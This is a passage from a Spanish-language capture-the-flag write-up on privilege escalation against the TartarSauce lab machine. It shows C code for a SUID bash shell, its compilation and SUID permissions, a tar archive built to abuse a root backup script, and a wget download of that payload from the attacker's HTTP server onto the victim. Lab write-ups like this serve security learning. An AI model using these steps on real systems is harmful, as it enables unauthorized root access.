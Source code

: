 ```c
#include <stdio.h>
#include <unistd.h>

int main(void){
    char *argv[] = {"/bin/bash","-p", NULL};
    execve(argv[0], argv, NULL);
}
```

Lo compilados recordando que la máquina víctima presenta una arquitectura de 32 bits y le asignamos permisos SUID:

```bash
❯ gcc -m32 -o setuid setuid.c
❯ chmod u+s setuid
❯ ll
.rwsr-xr-x root root 15 KB Mon Oct 11 16:34:28 2021  setuid
```

Y el compilado lo guardamos en la ruta que creamos.

```bash
❯ tree
.
├── gwolle.txt
├── setuid.c
├── var
│   └── www
│       └── html
│           └── setuid
└── wp-load.php

3 directories, 5 files
```

Ahora necesitamos comprimir la ruta de acuerdo a como se está realizando en el script

```bash
❯ tar -zcvf privesc var
var/
var/www/
var/www/html/
var/www/html/setuid
```

Transferimos nuestro archivo `privesc` a la máquina víctima, de preferencia en una ruta donde tengamos privilegios de lectura, escritura y ejecución `/dev/shm`:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [11/Oct/2021 16:53:24] "GET /privesc HTTP/1.1" 200 -
```

```bash
onuma@TartarSauce:/dev/shm$ wget http://10.10.14.16/privesc
--2021-10-11 17:58:12--  http://10.10.14.16/privesc
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2777 (2.7K) [application/octet-stream]
Saving to: 'privesc'

privesc                          100%[=======================================================>]   2.71K  --.-KB/s    in 0s      

2021-10-11 17:58:12 (496 MB/s) - 'privesc' saved [2777/2777]

onuma@TartarSauce:/dev/shm$
```